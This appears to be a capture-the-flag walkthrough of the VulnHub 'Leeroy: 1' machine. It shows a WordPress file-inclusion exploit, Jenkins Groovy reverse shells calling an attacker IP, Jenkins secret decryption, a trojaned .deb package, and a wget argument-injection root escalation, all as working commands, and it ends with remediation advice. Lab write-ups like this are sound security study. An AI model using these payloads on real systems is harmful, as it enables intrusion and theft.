

# Leeroy 1

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [Leeroy: 1](https://www.vulnhub.com/entry/leeroy-1,611/)
- CVSS3 : [AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*Go deeper than just the typical exploit.*

## Summary
Leeroy: 1 starts with the domain `leeroy.htb` that I find with the `nmap` general scripts scan. the site has 3 `HTTP` services, and one of them is a `WordPress` blog site, that with `wpscan` I identify is vulnerable to unauthenticated file inclusion, and it also gives me a [PoC on the exploit-db](https://www.exploit-db.com/exploits/44544) with `ffuf` and a list of Seclist, I enumerate the default server files, and identify the `/home/leeroy/.bash_history`, where I find the `Jenkins` passwords, and I could log in in `Jenkins` with `admin:z1n$AiWY40HWeQ@KJ53P`. After reading about [`Jenkins` in Hacktricks](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)  I identify a way to get an RCE with `Groovy` scripts, and I get the `jenkins` user. after reading and following the steps of  [how to decrypt Jenkins secrets on Hacktricks](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security#from-disk) I could get the `WordPress` password that is stored in `Jenkins` credentials, and that password is reused in the `ssh` connection of the `leeroy` user. When I check the `sudo` privileges of the `leeroy` user, then I identify it can run`/usr/share/jenkins/jenkins_installer`, and this is a `bash` file that uses the `wget` with an input argument, but it does not sanitize it, then is vulnerable to an argument injection, When I follow the instructions of [`wget` in gtfobins](https://gtfobins.github.io/gtfobins/wget/) I could get the `root` shell and the `root` flag.

>**Note**: Before I identify the Argument injection of the `wget` command, I tried to trick the script to download a fake `jenkins` `deb` file from my attack machine, after modifying the `/etc/hosts`, I prepare all, but I just missed a way that the installation detects a new version of the packaget, because it kept saying that the `jenkins` is in the latest version, I still believe that this path is possible, but until now I have not finished testing.

1. CWE-98: PHP Remote File Inclusion
2. CWE-532: Insertion of Sensitive Information into Log File
3. CWE-521: Weak Password Requirements
4. CWE-88: Improper Neutralization of Argument Delimiters in a Command

#VMWare #Nmap #Python #Ffuf #gtfobins #MySQL #WordPress #WPScan #CMS #Jenkins #Jetty #Groovy #ArgumentInjection #pycryptodome #dpkg-deb #LFI #wget

## Enumeration
When I run the target machine in VMware Workstation 17 Player (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.56.0/24
```
Then I compare the MAC with that of the target VMware configuration, and I find out that the IP is `192.168.56.113`.


And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.56.113
...SNIPPED...
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4
80/tcp    open  http    nginx 1.17.10 (Ubuntu)
8080/tcp  open  http    Jetty 9.4.27.v20200227
13380/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?
...SNIPPED...
```
Then I identify 5 open ports, the `OpenSSH 8.2p1` service runs on `22` TCP, and the `Nginx 1.17.10` service runs on `80` TCP, and the `Jetty 9.4.27.v20200227` service runs on `8080` TCP, and the `Apache httpd 2.4.41` service runs on `8080` TCP, and the `MySQL` service runs on `33060` TCP, and it runs on `Ubuntu`.

When I use the `nmap` general scripts:
```shell
$ nmap -p 22,80,8080,13380,33060 -sCV -oA scans/nmap-tcp-script-scan \
> 192.168.56.113
```
Then I can see:


And I identify the domain name `leeroy.htb`, And I add it to my `/etc/hosts` file:
```shell
$ echo "192.168.56.113 leeroy.htb" | sudo tee -a /etc/hosts
```
When I scan it again with the `http-enum` scripts:
```shell
$ nmap -p 80,8080,13380 -sV --script=http-enum -oA scans/nmap_http_scan \
> leeroy.htb
```
Then I can see:


And I identify a `WordPress` site on TCP port `13380`.

## Normal use case

Given I access `http://192.168.56.113`, then I can see:


But I can not see anything useful.

Given I access `http://192.168.56.113:8080`, then I can see:


And it is the `Jenkins` site login form, but I do not have any credentials.

Given I access `http://192.168.56.113:13380`, then I can see a `WordPress` Blog post:


And I can explore it, but it does not have much information.

## Dynamic detection

Unauthenticated file inclusion in `WordPress` with `Spritz 1.0`.

Given I can access 3 `HTTP` sites, but on the `80` and `8080` TCP it does not seem like I can do anything yet, then I decided to start enumerating the `WordPress` site.

When I use the wpscan command, and I use the `API token` that I got after registering at [WPScan site](https://wpscan.com), and I use a list of Seclists:
```shell
$ wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://leeroy.htb:13380 \
> [--plugins-detection aggressive] --api-token $WPSCAN_API --passwords \
> probable-v2-top12000.txt
```
Then I get a lot of vulnerabilities, but I focus only on those does not require authentication, and the `unauthenticated file inclusion` catches my eye:


And it also gives me a link to a [PoC on the exploit-db](https://www.exploit-db.com/exploits/44544) page, when I test the PoC found in exploit-db
And I use the `curl` command:
```shell
$ curl "http://leeroy.htb:13380/wp-content/plugins/wp-with-spritz/
> wp.spritz.content.filter.php?url=/../../../..//etc/passwd"
```
Then I can see the `/etc/passwd` file:


And I can see that the user `jenkins` and `leeroy` have a bash shell, and I can conclude that `WordPress` uses the plugin `Spritz 1.0`, and that is affected by an unauthenticated file inclusion vulnerability.

## Exploitation
`Jenkins` password in `.bash_history`, RCE with `Groovy`, and argument injection.

Given I can access `http://192.168.56.113:13380`, and it is a `WordPress` site, and it uses the `Spritz 1.0` plugin, and that plugin is vulnerable to an unauthenticated file inclusion, then I can start exploring all the default files on the target server.

When I use the `ffuf` command with a list of SecLists, and I modify the list to include the directory `/home/leeroy`:
```shell
$ ffuf -w LFI-gracefulsecurity-linux.txt:FUZZ -u "http://leeroy.htb:13380
> /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?
> url=/../../../../FUZZ" -fs 0
```
Then I get several default files:


And the `/home/leeroy/.bash_history` catches my attention, when I use the `curl` command to get that file:
```shell
$ curl "http://leeroy.htb:13380/wp-content/plugins/wp-with-spritz/wp.
> spritz.content.filter.php?url=/../../../..//home/leeroy/.bash_history"
```
Then I get the output:


And I can see the password `z1n$AiWY40HWeQ@KJ53P`, when I use the credentials, `admin:z1n$AiWY40HWeQ@KJ53P` in Jenkins, then it works:


When I explore the `Jenkins` dashboard, then I find credentials:



And those credentials are to access `WordPress`, but the password is encrypted. When I search [`Jenkins` in Hacktricks](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security), then I find several ways to get RCE:


When I compare what I can do in `Jenkins`, then I find the `Script console`:


When I check on Hacktricks how to run `bash` commands, then I can see:


When I test it with the following command:
```shell
"ls -laR /home".execute().text
```
Then I see the `/home` directory:


And I start to perform a reverse shell, when I encode the reverse shell payload:
```shell
$ echo -n "bash -c 'bash -i >& /dev/tcp/192.168.56.101/1234 0>&1'" \
> | base64
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I write the following script in the console:
```shell
'bash -c {echo,
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwMS8xMjM0IDA+JjEn}
|{base64,-d}|{bash,-i}'.execute()
```
Then it works:


## Lateral movement

I start to explore the server with the user `jenkins`, when I check the `jenkins` home in `/var/lib/jenkins`:
```shell
$ jenkins@leeroy:~$ ls -la
```
Then I can see all the configuration files:


When I read [how to decrypt Jenkins secrets on Hacktricks](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security#from-disk), then I can see:


When I copy the `master.key`:
```shell
$ jenkins@leeroy:~$ cat secrets/master.key
```
And the file `hudson.util.Secret`:


And with the last one, I have to encode it because it is binary:
```shell
$ jenkins@leeroy:~$ cat secrets/hudson.util.Secret | base64
```
And I store them in my attack machine:
```shell
$ echo -n "ak4UVryKKpMdoDE3UaOEFbJdU03XFgw5VJ0tdb4K1MOUiiP0w8o47BqbzuFJTEb
SDzrEAywG+g5WIYdp6GVcM5Sb/uDGgeBiT1iK8FzORW9QsMPT6B2isMOXvSzRsDEECoAfcZ124
8eyj2oKHGmQQsGiAwTAbQVNwN7GpD7fHDN3bcL4cFtJvKyjac5JzqSSVXHiE74e6chVdF7clZ2
ofiXoC7pwODjqE/uCkXNbzphLkNPdzT2Z4yfXoS1b8Fj9sl/HtKin/Cr839r4vk4rsAsLVaJL1
rNVMDqjTZq+1VHrdnq05T1NtXVCQYBpCBpN/NW5p6DMtweSN06jLuo5DImKG+jK3Y/QUh6ReCW
h0zk=" | base64 -d > hudson.util.Secret
```
When I download the [`jenkins_offline_decrypt.py`](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) that I found on Hacktricks
```shell
$ wget "https://raw.githubusercontent.com/gquere/pwn_jenkins/master/
> offline_decryption/jenkins_offline_decrypt.py"
```
And I use the `jenkins_offline_decrypt.py` Python3 script:
```shell
$ python3 jenkins_offline_decrypt.py master.key hudson.util.Secret c\
> redentials.xml
```
But I need to install `pycryptodome`:
```shell
$ pip install pycryptodome
```
And I run the `jenkins_offline_decrypt.py` script again, then it works:


And I get the credentials `leeroy:ew3@PHQiX2RtP1ra!GZs`, and I know that it is the `WordPress` login credentials, but I want to test it with the `ssh` connection, when I use the `ssh` command:
```shell
$ sshpass -p 'ew3@PHQiX2RtP1ra!GZs' ssh leeroy@192.168.56.113
```
Then it works, and I can get the shell of the user `leeroy`, and I can get the user flag:


## Privilege escalation

When I start exploring the server with the user `leeroy`, and I check the `sudo` privileges:
```shell
$ leeroy@leeroy:~$ sudo -l
...SNIPPED...
User leeroy may run the following commands on leeroy:
    (ALL) /usr/share/jenkins/jenkins_installer
```
When I check the file `jenkins_installer`:
```shell
$ leeroy@leeroy:~$ cat /usr/share/jenkins/jenkins_installer
...SNIPPED...
wget https://pkg.jenkins.io/debian-stable/binary/jenkins_2.222.3_all.deb \
   -O $1 --no-check-certificate
sudo sh -c 'echo deb http://pkg.jenkins.io/debian-stable binary/ > \
   /etc/apt/sources.list.d/jenkins.list'
sudo apt-get update
sudo apt-get install jenkins
```
Then I think I could add my `IP` to download the `deb` file, and that way the script installs my malicious code instead of `Jenkins`. but I need a series of conditions to be met, and I need to be able to modify the `/etc/hosts` file, and I need to configure an `HTTPS` service on my attack machine. When I check the `/etc/hosts` file:
```shell
$ leeroy@leeroy:~$ ls -la /etc/hosts
lrwxrwxrwx 1 root root 22 May  9  2020 /etc/hosts -> /var/lib/jenkins/hosts
```
Then it looks like the user `jenkins` can modify it. When I check the permissions of the file `/var/lib/jenkins/hosts`, then I get the output:
```shell
-rw-r--r-- 1 jenkins jenkins 175 May 11  2020 /var/lib/jenkins/host
```
And I can modify the file with the user `jenkins`:
```shell
$ jenkins@leeroy:~$ echo "192.168.56.101 pkg.jenkins.io" | \
> tee -a /var/lib/jenkins/hosts
```
And now, I need to understand how to create a `Debian` package, when I search in DuckDuckGo `create a .deb file`, then I find  [Create debian package](https://www.baeldung.com/linux/create-debian-package),  and I think that maybe it is easier for me to modify the `Jenkins deb` file. When I download the `jenkins_2.222.3_all.deb` package:
```shell
$ wget https://pkg.jenkins.io/debian-stable/binary/jenkins_2.222.3_all.deb
```
When I extract the `deb` package:
```shell
$ mkdir jenkins_2.222.3_all && dpkg --extract \
> jenkins_2.222.3_all.deb jenkins_2.222.3_all && cd jenkins_2.222.3_all
```
And I identify the bash init script at `/etc/init.d/jenkins`:
```bash
#!/bin/bash
# /etc/init.d/jenkins
# debian-compatible jenkins startup script.
# Amelia A Lewis <alewis@ibco.com>
#
### BEGIN INIT INFO
...SNIPPED...
```
And I replace it with a reverse shell payload:
```shell
$ echo '#!/bin/bash
> bash -c \'bash -i >& /dev/tcp/192.168.56.101/1235 0>&1\'' > \
> etc/init.d/jenkins
```
And I use the `dpkg-deb` command to create a new `.deb` file:
```shell
$ dpkg-deb --root-owner-group --build jenkins_2.222.3_all.deb
dpkg-deb: error: failed to open package info file
'jenkins_2.222.3_all.deb/DEBIAN/control' for reading:
No such file or directory
```
Then I get an error. When I create the `DEBIAN` directory:
```shell
$ mkdir -p jenkins_2.222.3_all/DEBIAN
```
And I use `vim` to write the file `jenkins_2.222.3_all.deb/DEBIAN/control`:
```
Package: jenkins
Version: 2.222.4
Section: utils
Priority: optional
Architecture: all
Maintainer: test <test@test.com>
Description: This is a test
```
And I use again the `dpkg-deb` command that I used above, then I get the output:
```shell
dpkg-deb: building package 'jenkins' in 'jenkins_2.222.3_all.deb'.
```
And now, I need to start the `HTTPS` service on my attack machine. When I google `Python3 https directory listing`, then I find [http server Python docs](https://docs.python.org/3/library/http.server.html). When I write the example script called [httpsservice.py](./static/httpsservice.py), but with the `ssl` library I add the certificate to the `socket`, and I generate a certificate with the `openssl` command:
```shell
$ openssl req -new -x509 -keyout server.pem -out server.pem \
> -days 365 -nodes
```
And I run the script with `sudo` permission to be able to use port `443`:
```shell
$ sudo python3 httpsservice.py
```
And I test it with the `curl` command, and I use the `-k` switch to ignore the insecure certificate:
```shell
$ curl -k https://0.0.0.0
```
Then it works:


And now, I am ready to start the attack, when I check the file `/usr/share/jenkins/jenkins_installer` again, then I realize something that I did not when I first saw that file, and it is the way the script uses the parameter `$1`, and it is not surrounded by double quotes or brackets, and I realize that everything I'm doing is not necessary, and it is because I can modify the `bash` command, but despite that, I learned some useful things. When I search for [`wget` in gtfobins](https://gtfobins.github.io/gtfobins/wget/), and I can see that I can spawn a shell with the `--use-askpass` option, when I follow the steps, and I create a temporary directory:
```shell
$ leeroy@leeroy:~$ TF=$(mktemp)
```
And I give it executable permissions:
```shell
$ leeroy@leeroy:~$ chmod +x $TF
```
And I store the shell command:
```shell
$ leeroy@leeroy:~$ echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
```
And I send the payload:
```shell
$ leeroy@leeroy:~$ sudo /usr/share/jenkins/jenkins_installer \
> " - --use-askpass=$TF 0"
```
Then I can get the `root` shell, and I can get the `root` flag:


## Remediation
Given I find that `WordPress` uses the `Spritz 1.0 plugin`, and that plugin is vulnerable to unauthenticated file inclusion, and the `Jenkins` admin password is stored in `.bash_history` file, and I find the `WordPress` login credentials stored in `Jenkins`, and with `Jenkins`, I was able to perform an RCE with the `Script Console`, and with the secrets files, I was able to decrypt the `WordPress` password, and the user reused the `WordPress` password to access the server, and the user has `sudo` privileges to run a `bash` install script, and the arguments are not being sanitized, and that allows me to perform an argument injection, then they should update the `Spritz` plugin to its latest version, and remove all sensitive data from the `.bash_history` file, and apply the best practices when configuring `Jenkins`, and do not reuse passwords, and sanitize all input arguments, and check the user's privileges to give him only the necessary ones, then with that, it may not be possible to get the root's shell.
